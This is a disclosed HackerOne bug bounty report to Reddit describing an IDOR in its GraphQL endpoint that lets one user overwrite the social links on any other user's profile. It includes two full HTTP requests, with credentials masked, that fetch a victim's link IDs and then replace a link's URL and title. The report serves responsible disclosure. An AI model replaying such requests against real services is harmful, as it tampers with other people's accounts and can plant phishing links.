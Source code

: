 # IDOR allows an attacker to modify the links of any user

## Report Details
- **Report ID**: 1661113
- **URL**: https://hackerone.com/reports/1661113
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-08-06T05:00:00.232Z
- **Disclosed**: 2022-09-30T15:09:18.437Z

## Reporter
- **Username**: criptex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
Hi team!

I found an IDOR which allows to modify the links of any user.
Users can put their custom links or social media links on their profile, ex:

{F1855366}

##To reproduce this:

- Replicate the following request by replacing it with your own authentication headers:
You must also put in the body of the request, in the parameter "username" the username that you want,  you can try my username: "criptexhackerone1".
This request will return in the response the links of any user profile with the "id" of each link.


```
POST / HTTP/2
Host: gql.reddit.com
Content-Length: 62
Sec-Ch-Ua: ".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"
X-Reddit-Loid:  * * ** * * * * * * * * * * ** * *  * * * * * * * * *  * * * * *  *
Sec-Ch-Ua-Mobile: ?0
Authorization: Bearer * * * * * * *  * * * * * * * * * * * * * * * * * * * * * * * * *  * * * * *  *
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/531.36
X-Reddit-Compression: 1
X-Reddit-Session:  * * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://www.reddit.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://www.reddit.com/
Accept-Encoding: gzip, deflate
Accept-Language: es-ES,es;q=0.9,en-US;q=0.8,en;q=0.7,bs;q=0.6,ja;q=0.5

{"id":"11a239b07f86","variables":{"username":"*********"}}
```

- When you get some "id" save it.
- In the next request you have to put in the request body, in the "id" parameter the previously saved id, you can also change the name and the link:

```
POST / HTTP/2
Host: gql.reddit.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20000101 Firefox/101.0
Accept: */*
Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 173
X-Reddit-Loid: * * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *
X-Reddit-Session: * * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *
X-Reddit-Compression: 1
Origin: https://www.reddit.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Authorization: Bearer * * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *
Referer: https://www.reddit.com/
Te: trailers

{"id":"c558e604581f","variables":{"input":{"socialLinks":[{"outboundUrl":"https://www.hackerone.com","title":"hacker","type":"CUSTOM","id":"* * * * * * * * *  * * * * *  * * * * * * * * * *  * * * * *  *"}]}}}
```
- Finally re-enter the victim's profile and you will see the modified links. It is important to mention that you may have to reload the page a few times or wait a few seconds.

## Impact

A real attacker can modify the name and content of any user's social links. It is important to add that social links are something main in user profiles, if an attacker exploits this with all reddit users it could be devastating.

Best Regards!!!

## Attachments
- links.png
